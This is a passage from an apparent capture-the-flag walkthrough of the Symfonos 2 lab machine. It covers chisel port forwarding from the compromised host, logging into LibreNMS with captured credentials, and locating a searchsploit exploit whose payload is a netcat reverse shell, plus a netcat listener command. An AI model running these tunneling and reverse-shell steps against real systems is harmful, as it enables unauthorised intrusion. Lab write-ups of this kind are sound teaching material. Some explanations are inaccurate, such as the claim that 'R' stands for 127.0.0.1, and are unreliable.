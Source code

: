 - "server" is because we are going to connect to it from the victim machine
- "reverse" allow clients to specify reverse port forwarding remotes
- "port" is the port where we are going connect

Now from the victim machine, we will run this:

````sh
./chisel client <yourIP>:9999 R:8080:127.0.0.1:8080
`````

- R is the shorthand for 127.0.0.1
- 8080 is the port that we are opening in our machine 
- 127.0.0.1 reference to the local machine
- 8080 is the port where the web server is running, that we want to bring.

After doing this, we can go to our browser and search "127.0.0.1:8080". This will display the web running on local at the victim machine. 

As we can see there is a CSM called LibreNMS.


![12Pic]({{ '/assets/img/symfonos2/20240223203101.png' | relative_url }}){: .center }


If we try different users or passwords it will display a error, but if we try to log in with the aeolus credentials we will be accessing to the panel.

Over time we found that there is a vulnerable version of this CSM by using searchsploit.

![13Pic]({{ '/assets/img/symfonos2/20240223203809.png' | relative_url }}){: .center }


We are not able to discover the CSM but, inspecting the code, we can see if that exploit apply to the version running.

As payload, it sends a reverse shell of netcat.


![14Pic]({{ '/assets/img/symfonos2/20240223204059.png' | relative_url }}){: .center }


also we can see that they are declaring a function called create_new_device that is injecting the payload so we are going to try the same 

![15Pic]({{ '/assets/img/symfonos2/20240223205050.png' | relative_url }}){: .center }


if we go to /addhost/ as shows at the exploit, and we put all options as in the image, we may be able to get a reverse shell.

In the ssh connection via aeolus we will be listening at the port 4443:

````sh
nc -lvnp 4443
`````

Now I will add the next device

![16Pic]({{ '/assets/img/symfonos2/20240309134042.png' | relative_url }}){: .center }

